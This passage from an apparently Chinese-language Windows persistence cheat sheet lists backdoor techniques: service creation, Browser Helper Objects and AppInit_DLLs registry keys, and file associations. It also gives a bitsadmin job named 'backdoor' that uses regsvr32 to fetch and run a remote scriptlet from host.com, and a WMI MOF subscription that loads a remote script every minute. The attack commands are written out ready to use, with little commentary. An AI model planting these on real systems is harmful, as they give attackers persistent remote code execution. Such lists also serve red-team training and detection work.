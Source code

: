 ##### 7、Services

创建服务

```
sc create [ServerName] binPath= BinaryPathName
```

##### 8、Browser Helper Objects

本质上是Internet Explorer启动时加载的DLL模块

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects
```

##### 9、AppInit_DLLs

加载User32.dll会加载的DLL

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

##### 10、文件关联

```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```

##### 11、[bitsadmin](http://www.liuhaihua.cn/archives/357579.html)

```ABAP
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

##### 12、[mof](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)

```ABAP
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
